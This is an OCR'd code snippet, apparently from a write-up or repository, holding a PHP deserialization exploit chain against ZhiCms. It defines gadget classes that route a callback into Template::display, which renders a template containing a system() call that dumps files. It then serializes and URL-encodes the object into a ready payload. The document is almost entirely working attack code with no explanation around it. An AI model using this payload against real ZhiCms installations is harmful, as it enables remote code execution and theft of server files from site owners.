 ```plain
    protected $vars = array();
    protected $cache = null;

    public function __construct(){
        $this->cache = new Cache;
        $this->vars=array("tpl"=>"<?php system('nl /*');?>","isTpl"=>false);
    }
}

namespace ZhiCms\base\cache;
use ZhiCms\ext\simple_html_dom_node;
use ZhiCms\base\Cache;
class MemcacheDriver
{
    protected $mmc = NULL;
    protected $group = ''; 
    protected $ver = 0;
    public function __construct(){
        $this->mmc = new Cache();
        $this->group = new simple_html_dom_node;
    }
}


namespace ZhiCms\ext;
use ZhiCms\base\cache\MemcacheDriver;
use ZhiCms\base\Template;
use zhicms\base\Cache;
class simple_html_dom
{
    protected $parent;
    public $callback = null;
    public function __construct($obj){
        $this->parent = $obj;
    }
}
class simple_html_dom_node
{
    private $dom = null;
    public function __construct(){
        $dom = new simple_html_dom("");
        $dom->callback=array(new Template(), "display");
        $this->dom = $dom;

    }
}


$step = new MemcacheDriver;
$exp = new simple_html_dom($step);
echo urlencode(serialize($exp));
```

